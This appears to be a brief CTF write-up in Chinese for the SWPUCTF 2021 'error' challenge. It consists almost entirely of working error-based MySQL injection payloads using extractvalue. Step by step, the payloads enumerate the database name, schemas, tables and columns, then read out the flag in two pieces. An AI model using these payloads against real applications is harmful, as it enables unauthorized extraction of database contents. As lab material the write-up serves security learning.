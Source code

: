 ## [SWPUCTF 2021 新生赛]error

爆出数据库名字
-1'and(select extractvalue(1,concat('~',(select database()))))# 报错注入

爆出所有数据库名
-1'and(select extractvalue(1,concat('~',(select group_concat(schema_name) from information_schema.schemata))))#

爆出数据库test_db下所有的表
-1'and(select extractvalue(1,concat('~',(select group_concat(table_name) from information_schema.tables where table_schema='test_db'))))#

爆出test_db数据库下test_tb表所有的列名
-1'and(select extractvalue(1,concat('~',(select group_concat(column_name) from information_schema.columns where table_name="test_tb" and table_schema='test_db'))))#

查询flag
-1'and(select extractvalue(1,concat('~',(select substr((select flag from test_tb), 1 , 31)))))# 0-30位 左边30位
-1'and(select extractvalue(1,concat('~',(select substr((select flag from test_tb), 31 , 60)))))# 31-60位 右边边31位

